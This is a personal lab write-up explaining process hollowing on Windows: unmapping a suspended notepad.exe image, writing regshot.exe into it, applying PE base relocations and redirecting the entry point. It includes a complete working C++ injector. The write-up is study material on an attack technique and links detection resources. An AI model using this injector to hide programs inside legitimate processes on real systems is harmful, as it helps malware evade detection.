# Process Hollowing and Portable Executable Relocations

This lab is my attempt to better understand and implement a well known code injection technique called process hollowing, where a victim process is created in a suspended state, its image is carved out from memory, a malicious binary gets written instead and the program state is resumed to execute the injected code.

Although my implementation of process hollowing does not work with all binaries, I still found it valuable in doing this lab since the aim was to:

* get a better understanding of the technique's technicalities under the hood
* become a bit more comfortable with C++ and Windows APIs
* get a bit more familiar with image relocations
* become a bit more comfortable with inspecting / manipulating program's memory
* get to do more PE parsing and PE relocations

The main reference resource for this lab was [https://github.com/m0n0ph1/Process-Hollowing](https://github.com/m0n0ph1/Process-Hollowing).   
Shout out to [Mumbai](https://twitter.com/ilove2pwn_) for a great debugging session and as usual, talking C to me!

If you need more info on parsing Windows PE files, see my previous lab:



## Execution


You may notice that `ImageBaseAddress` varies across the screenshots.   
This is because I ran the binary multiple times and the ASLR played its role.


### Destination / Host Image

Let's start calc.exe as our host / destination process - this is going to be the process that we will be hollowing out and attempt to replace it with cmd.exe.


### Destination ImageBaseAddress

Now, in order to hollow out the destination process, we need to know its `ImageBaseAddress`. We can get the location of image base address from the [PEB](../../miscellaneous-reversing-forensics/windows-kernel-internals/exploring-process-environment-block.md) structure of the host process via WinDBG - we know that the PEB is located at 0100e000:



..and we also know that the `ImageBaseAddress`is 8 bytes away from the PEB:


So, in the code we can get the offset location like so:


Finally, we can then get the `ImageBaseAddress` by reading that memory location:



Let's confirm we got the right `ImageBaseAddress`:

```text
dt _peb @$peb
```


We will come back to the hollowing the destination image located at `ImageBaseAddress` in a moment.

### Source Image

Let's now switch gears to the source file - the binary that we want to execute inside the host/destination  process. In my case it's - cmd.exe. I've opened the file, allocated required memory and read the file to that memory location:


### Source Image Size

Let's get the `SizeOfImage` of the source image \(cmd.exe\) from its Optional Headers of the PE we just read - we need to know this value since we will need to allocate that much memory in the destination process \(calc\) in order to copy over the souce image \(cmd\):


### Destination Image Unmapping

We can now carve / hollow out the destination image. Note how at the moment, before we perform the hollowing, the memory at address `01390000` \(`ImageBaseAddress`\) contains the calc.exe image:


Let's proceed with the hollowing:


If we check the `ImageBaseAddress` now, we can see the image is gone:


### Allocating Memory In Destination Image

We now need to allocate a block of memory of size `SizeOfImage` in the destination process that will be our new `ImageBaseAddress` of the source image. Ideally, we would allocate new memory at ImageBaseAddress of the destination image, however I was getting an error `ERROR_INVALID_ADDRESS,`although I could see the memory at that address was properly unmapped. Additionally it was committed previously and contained the destination image:



Microsoft on `ERROR_INVALID_ADDRESS`:

> If this address is within an enclave that you have not initialized by calling [InitializeEnclave](https://msdn.microsoft.com/6A711135-A522-40AE-965F-E1AF97D0076A), **VirtualAllocEx** allocates a page of zeros for the enclave at that address. The page must be previously uncommitted, and will not be measured with the EEXTEND instruction of the Intel Software Guard Extensions programming model.
>
> If the address in within an enclave that you initialized, then the allocation operation fails with the **ERROR\_INVALID\_ADDRESS** error.

Although I did not use enclaves, I am not sure if Windows 10 did that for me as part of some API call I used or when loading the destination process in memory.

Interesting to note that even the main reference resource I used for this lab was failing with the same error.

For the above reason, I let the compiler decide where new memory will be allocated. After the memory has been allocated, we need to calculate the delta between the `ImageBaseAddress` of the destination image and the source image's preferred `ImageBase`- this is required for patching the binary during the relocations phase:



### Copying Source Image Headers

We can now copy over the source image headers into the newly allocated memory in the destination process:



### Copying Source Image Sections to Destination Process

Let's now get the first Section Header of the source file and make sure we are reading it correctly by comparing the details via a PE parser:



We can now copy over all the PE sections of the source file to the destination process. This loop will do it for us:



Below shows how a .text section is copied over from the disk to memory:



We can see the bytes on the disk \(left\) match those in memory \(right\), so we know the section was copied over successfully - the same will be done with other remaining sections:


### Relocation

Now it's time to perform image base relocations. 

Since our source image was loaded to a different `ImageBaseAddress` compared to where the destination process was loaded into initially, it needs to be patched in order for the binary to resolve addresses to things like static variables and other absolute addresses which otherwise would no longer work. The way the windows loader knows how to patch the images in memory is by referring to a relocation table residing in the binary.

Relocation table contains:

* A number of variable sized relocation blocks for each memory page
* Relocation block defines its Relative \(to image base\) Virtual Address location \(first 4 bytes of the relocation block\)
* Relocation block specifies its size \(bytes 5-8 from the beginning of the relocation block\)
* After the block size, there is a list of 2 byte pairs denoting the patching instructions, where the first 4 bits indicate relocation type and the remaining 12 bits signify the location of the bytes \(relative to the image base\) that actually need to be patched

Here's a diagram of the above points, where Block 1..N are relocation blocks and B1P-BNP are the required patch definitions \(relocation type and relocation address\) themselves:



This is how it looks like in the hex dump of a binary regshot.exe \(see Updates to know why I switched the binaries\):


In order to do relocations in code, we first need to find a pointer to the relocations table, which is essentially a `.reloc` section in our source binary:


### Reading First Relocation Block

Now, let's get the information about the fist relocation block and make sure we are reading it correctly:


### Getting Relocations Count

Since we know the relocation block size and the size of an individual relocation entry, we can work out how many relocations this block defines:



### Relocating

Below loop will fix up the required memory locations. It works by:

* finding the relocation table and cycling through the relocation blocks
* getting the nuber of required relocations in each relocation block
* reading bytes in the specified relocation addresses
* applying delta \(between source and destination imageBaseAddress\) to the values specified in the relocation addresses
* writing the new values to specified relocation addresses
* repeating the above until the entire relocation table is traversed

See [Update \#2](process-hollowing-and-pe-image-relocations.md#update-2) for more:



Below shows how the loop iterates through the relocation entries \(cross reference bottom right screen for RVAs\) and patches the memory as seen in the top right corner:


### Changing AddressOfEntryPoint

After the fix-ups are done, we need to capture the destination process thread context, since it conains a pointer to the `eax` register which we will need to update with `AddressOfEntryPoint` of the source image:



Once that is done, we can update the `AddressOfEntryPoint` of the source image, update the thread with the new entry point and resume the thread:



At this point, if we compile and run the program, our cmd.exe should be launched inside the hollowed out calc.exe. Unfortunately, in my lab environment, this failed with:


I must have messed something up along the way. Having said that, I tried compiling and running the POC provided at [https://github.com/m0n0ph1/Process-Hollowing](https://github.com/m0n0ph1/Process-Hollowing) and cross referenced results of my program with the POC - everything matched up, includig the final error :\)

If you are reading this and you see what I have missed, as always, I want to hear from you.

## Update \#1

After talking to [@mumbai](https://twitter.com/ilove2pwn_), the issue I was having with [memory allocation](process-hollowing-and-pe-image-relocations.md#allocating-memory-in-destination-image) in the destination process at the `ImageBaseAddress` is now magically gone \(?\). This means that I can now perform process hollowing and I will be using notepad.exe \(line 28\) as the destination process and regshot.exe \(line 42\) will be written to the hollowed notepad.exe process:



Below is a powershell one-liner that constantly checks if there's a notepad.exe process running \(our destination process\). Once found, it checks if a process `*regshot*` \(our source binary\) is running \(to prove that it is not, since it should be hidden inside the notepad.exe\) and breaks the loop:

```csharp
while(1) { get-process | ? {$_.name -match 'notepad'} | % { $_; get-process "*regshot*"; break } }
```

Below shows this all in action - once the program is compiled and executed, notepad.exe is launched, powershell loop \(top right\) stops. Note how regshot.exe is not visible in the process list, however when closing it, notepad.exe gets killed together - the hollow is successful:


## Update \#2

Zooming in a bit further on the PE relocations:

* Source image regshot.exe preferred image base is `00400000`
* Destination image notepad.exe image base got loaded into `00380000`
* Delta between images is `00400000 - 00380000 = 80000h`
* Bottom right shows that address in the destination image at address `imageBase + 1210h` needs to be fixed up using `IMAGE_REL_BASED_HIGHLOW`relocation type
  * Relocation type is worked out by taking the first 4 bits of the value stored in the relocation entry block, which in this case is **3**210h - bottom left screenshot or bottom right \(data column\)
  * **3**210h in bits - **0011** 0010 0001 0000 and the first 4 bits are 0011 which is 3 in decimal
* Top right \(source image / notepad\) shows that at `00381210` \(00380000 + 1210h = 00381210\) the value contained is `0040E7A5`, suggesting the address is based on the preferred image base of regshot since it starts with 0040xxxx
* `0040E7A5` would work OK for regshot if its image had been loaded at 00400000, but since it got loaded instead of notepad's image base at `00380000`, it needs to be patched by applying the delta \(80000h\) between images like so:

$$
0040E7A5 - 80000h = 38E7A5
$$



After executing the code line 118 \(top left in the screenshot above\), `0040E7A5` got patched to the new location `0038E7A5` matching the new image base `00380000`that of notepad.exe \(destination process\):



## Code


```cpp
// process-hollowing.cpp : This file contains the 'main' function. Program execution begins and ends there.
//

#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <winternl.h>

using NtUnmapViewOfSection = NTSTATUS(WINAPI*)(HANDLE, PVOID);

typedef struct BASE_RELOCATION_BLOCK {
	DWORD PageAddress;
	DWORD BlockSize;
} BASE_RELOCATION_BLOCK, *PBASE_RELOCATION_BLOCK;

typedef struct BASE_RELOCATION_ENTRY {
	USHORT Offset : 12;
	USHORT Type : 4;
} BASE_RELOCATION_ENTRY, *PBASE_RELOCATION_ENTRY;

int main()
{
	// create destination process - this is the process to be hollowed out
	LPSTARTUPINFOA si = new STARTUPINFOA();
	LPPROCESS_INFORMATION pi = new PROCESS_INFORMATION();
	PROCESS_BASIC_INFORMATION *pbi = new PROCESS_BASIC_INFORMATION();
	DWORD returnLenght = 0;
	CreateProcessA(NULL, (LPSTR)"c:\\windows\\syswow64\\notepad.exe", NULL, NULL, TRUE, CREATE_SUSPENDED, NULL, NULL, si, pi);
	HANDLE destProcess = pi->hProcess;

	// get destination imageBase offset address from the PEB
	NtQueryInformationProcess(destProcess, ProcessBasicInformation, pbi, sizeof(PROCESS_BASIC_INFORMATION), &returnLenght);
	DWORD pebImageBaseOffset = (DWORD)pbi->PebBaseAddress + 8; 
	
	// get destination imageBaseAddress
	LPVOID destImageBase = 0;
	SIZE_T bytesRead = NULL;
	ReadProcessMemory(destProcess, (LPCVOID)pebImageBaseOffset, &destImageBase, 4, &bytesRead);

	// read source file - this is the file that will be executed inside the hollowed process
	HANDLE sourceFile = CreateFileA("C:\\temp\\regshot.exe", GENERIC_READ,	NULL, NULL, OPEN_ALWAYS, NULL, NULL);
	DWORD sourceFileSize = GetFileSize(sourceFile, NULL);
	LPDWORD fileBytesRead = 0;
	LPVOID sourceFileBytesBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sourceFileSize);
	ReadFile(sourceFile, sourceFileBytesBuffer, sourceFileSize, NULL, NULL);
	
	// get source image size
	PIMAGE_DOS_HEADER sourceImageDosHeaders = (PIMAGE_DOS_HEADER)sourceFileBytesBuffer;
	PIMAGE_NT_HEADERS sourceImageNTHeaders = (PIMAGE_NT_HEADERS)((DWORD)sourceFileBytesBuffer + sourceImageDosHeaders->e_lfanew);
	SIZE_T sourceImageSize = sourceImageNTHeaders->OptionalHeader.SizeOfImage;

	// carve out the destination image
	NtUnmapViewOfSection myNtUnmapViewOfSection = (NtUnmapViewOfSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtUnmapViewOfSection"));
	myNtUnmapViewOfSection(destProcess, destImageBase);

	// allocate new memory in destination image for the source image
	LPVOID newDestImageBase = VirtualAllocEx(destProcess, destImageBase, sourceImageSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	destImageBase = newDestImageBase;

	// get delta between sourceImageBaseAddress and destinationImageBaseAddress
	DWORD deltaImageBase = (DWORD)destImageBase - sourceImageNTHeaders->OptionalHeader.ImageBase;

	// set sourceImageBase to destImageBase and copy the source Image headers to the destination image
	sourceImageNTHeaders->OptionalHeader.ImageBase = (DWORD)destImageBase;
	WriteProcessMemory(destProcess, newDestImageBase, sourceFileBytesBuffer, sourceImageNTHeaders->OptionalHeader.SizeOfHeaders, NULL);

	// get pointer to first source image section
	PIMAGE_SECTION_HEADER sourceImageSection = (PIMAGE_SECTION_HEADER)((DWORD)sourceFileBytesBuffer + sourceImageDosHeaders->e_lfanew + sizeof(IMAGE_NT_HEADERS32));
	PIMAGE_SECTION_HEADER sourceImageSectionOld = sourceImageSection;
	int err = GetLastError();

	// copy source image sections to destination
	for (int i = 0; i < sourceImageNTHeaders->FileHeader.NumberOfSections; i++)
	{
		PVOID destinationSectionLocation = (PVOID)((DWORD)destImageBase + sourceImageSection->VirtualAddress);
		PVOID sourceSectionLocation = (PVOID)((DWORD)sourceFileBytesBuffer + sourceImageSection->PointerToRawData);
		WriteProcessMemory(destProcess, destinationSectionLocation, sourceSectionLocation, sourceImageSection->SizeOfRawData, NULL);
		sourceImageSection++;
	}

	// get address of the relocation table
	IMAGE_DATA_DIRECTORY relocationTable = sourceImageNTHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];
	
	// patch the binary with relocations
	sourceImageSection = sourceImageSectionOld;
	for (int i = 0; i < sourceImageNTHeaders->FileHeader.NumberOfSections; i++)
	{
		BYTE* relocSectionName = (BYTE*)".reloc";
		if (memcmp(sourceImageSection->Name, relocSectionName, 5) != 0) 
		{
			sourceImageSection++;
			continue;
		}

		DWORD sourceRelocationTableRaw = sourceImageSection->PointerToRawData;
		DWORD relocationOffset = 0;

		while (relocationOffset < relocationTable.Size) {
			PBASE_RELOCATION_BLOCK relocationBlock = (PBASE_RELOCATION_BLOCK)((DWORD)sourceFileBytesBuffer + sourceRelocationTableRaw + relocationOffset);
			relocationOffset += sizeof(BASE_RELOCATION_BLOCK);
			DWORD relocationEntryCount = (relocationBlock->BlockSize - sizeof(BASE_RELOCATION_BLOCK)) / sizeof(BASE_RELOCATION_ENTRY);
			PBASE_RELOCATION_ENTRY relocationEntries = (PBASE_RELOCATION_ENTRY)((DWORD)sourceFileBytesBuffer + sourceRelocationTableRaw + relocationOffset);

			for (DWORD y = 0; y < relocationEntryCount; y++)
			{
				relocationOffset += sizeof(BASE_RELOCATION_ENTRY);

				if (relocationEntries[y].Type == 0)
				{
					continue;
				}

				DWORD patchAddress = relocationBlock->PageAddress + relocationEntries[y].Offset;
				DWORD patchedBuffer = 0;
				ReadProcessMemory(destProcess,(LPCVOID)((DWORD)destImageBase + patchAddress), &patchedBuffer, sizeof(DWORD), &bytesRead);
				patchedBuffer += deltaImageBase;

				WriteProcessMemory(destProcess,	(PVOID)((DWORD)destImageBase + patchAddress), &patchedBuffer, sizeof(DWORD), fileBytesRead);
				int a = GetLastError();
			}
		}
	}

	// get context of the dest process thread
	LPCONTEXT context = new CONTEXT();
	context->ContextFlags = CONTEXT_INTEGER;
	GetThreadContext(pi->hThread, context);

	// update dest image entry point to the new entry point of the source image and resume dest image thread
	DWORD patchedEntryPoint = (DWORD)destImageBase + sourceImageNTHeaders->OptionalHeader.AddressOfEntryPoint;
	context->Eax = patchedEntryPoint;
	SetThreadContext(pi->hThread, context);
	ResumeThread(pi->hThread);

	return 0;
}

```


## References



What an amazing resource for those interested in detecting process hollowing using memory forensics techniques:









